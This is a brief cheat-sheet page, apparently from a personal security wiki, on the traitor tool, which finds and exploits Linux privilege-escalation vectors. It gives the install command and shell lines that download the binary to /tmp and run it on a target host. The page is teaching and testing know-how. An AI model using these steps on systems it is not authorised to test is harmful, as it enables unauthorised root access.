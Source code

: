 # Privilege Escalation Using traitor

<div class="row row-cols-lg-2"><div>

[traitor](https://github.com/liamg/traitor) <small>(6.6k ⭐, 2022 ☠️)</small> is an open-source tool to automatically detect common privilege escalation vectors and exploit them.

It's written in [GO](/programming-languages/high-level/others/golang/index.md) which you need to install to download the tool.

```shell!
$ CGO_ENABLED=0 go install github.com/liamg/traitor/cmd/traitor@latest
```

The tool is available at `/home/<username>/go/bin/traitor`. It can be uploaded and executed on any host without having them install GO.
</div><div>

To find vulnerable escalation vectors:

```shell!
$ wget [...] -O /tmp/traitor
$ /tmp/traitor
$ /tmp/traitor -p   # if the password is known
```
</div></div>